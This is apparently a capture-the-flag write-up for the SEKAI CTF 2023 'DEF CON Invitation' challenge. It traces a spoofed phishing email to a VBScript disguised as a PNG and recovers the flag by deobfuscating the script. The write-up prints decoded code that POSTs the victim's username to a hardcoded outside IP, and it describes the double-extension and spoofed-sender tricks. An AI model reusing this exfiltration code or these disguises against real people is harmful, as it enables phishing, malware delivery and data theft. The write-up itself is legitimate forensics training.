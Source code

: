 ### DEF CON Invitation
As you all know, DEF CON CTF Qualifier 2023 was really competitive and we didn't make it. 
Surprisingly, 2 months before the finals in Las Vegas, we received an official invitation from Nautilus Institute to 
attend the event. Should we accept the invitation and schedule the trip?

Author: sahuang
---
(Given file){DEFCON_Finals_Invitation.eml}

So we start out with an email. Looking at the message ID we see `Message-Id: <20230626040116.E7EA75474A4@emkei.cz>` which means that this was made with the fake emailer software emkei which explains how the email address looks real since emkei can send emails from any address without having access to it. So we can move on to looking at the attached calendar invite. 

The body of the calendar invite has two links
`https://storage.googleapis.com/defcon-nautilus/venue-guide.html and https://nautilus.org/`
The venue-guide link leads us to download a file named `venue-map.png.vbs` which is a poor attempt at hiding visual basic code as a png file. 
The vbs file has a lot of code in it, a lot is only relevant to the malware but everything after the final "your data is ours now pls send bitcoin" message is heavily obfuscated and looks strange, why would there be more code after the ransom message?

I picked out all the strange code and placed it in my own vbs file to run. 
![[pls.vbs]]

The output is as follows:
`c:\temp\defcon-flag.png.compromised `
```
https://download1647.mediafire.com/l188u2d532qg3fOoLpilcI89p0_h4E0cGLjk_uvBUiag7E_rMZ-H5-me9Kr9SQLVQaKSiKcEvJO-EkfTSUqWlrN6SzXgI0LYBh-F5em4IA4iX3tOIGh0Ej46GlwvLOfT8pzvuy91Utej1r2I0jg7YsUNcssPted508dskWRpkAI/yea535hvgp32vmv/defcon-flag.png.XORed
```

```
Dim http:
Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
Dim url: url = "http://20.106.250.46/sendUserData"
With http
    Call .Open("POST", url, False)
    Call .SetRequestHeader("Content-Type", "application/json")
    Call .Send("{""username"":""" & strUser & """}")
End With
res = Msgbox("Thank you for your cooperation!", vbOKOnly+vbInformation, "")
```

The second one is a link to download a file named `defcon-flag.png.XORed` which, from the name, we can assume is our flag as an image that has been XORed. So now we just need to the key to XOR it back with. 

If we send our own POST request to the url in the third output (I used https://reqbin.com/post-online to do this) with a blank username, we get the following returned:
`{
    "key": "compromised",
    "msg": "Not admin!"
}`

Interesting. So if we instead send admin as the username, we get:
`{
    "key": "02398482aeb7d9fe98bf7dc7cc_ITDWWGMFNY",
    "msg": "Data compromised!"
}`

Very nice. From here I had to play around with cyberchef to work out how to use this key. I ended up converting the key to hex and XORing it with the png.XORED file and got the following image.
![[Pasted image 20230827115653.png]]
If we then flip the image both vertically and horizontally, we get the flag 
`SEKAI{so_i_guess_we'll_get_more_better_next_year-_-}`

For reference, my final cyberchef recipe was https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Hex','string':'30%2032%2033%2039%2038%2034%2038%2032%2061%2065%2062%2037%2064%2039%2066%2065%2039%2038%2062%2066%2037%2064%2063%2037%2063%2063%205f%2049%2054%2044%2057%2057%2047%204d%2046%204e%2059'%7D,'Standard',false)Render_Image('Raw')Flip_Image('Vertical')Flip_Image('Horizontal')

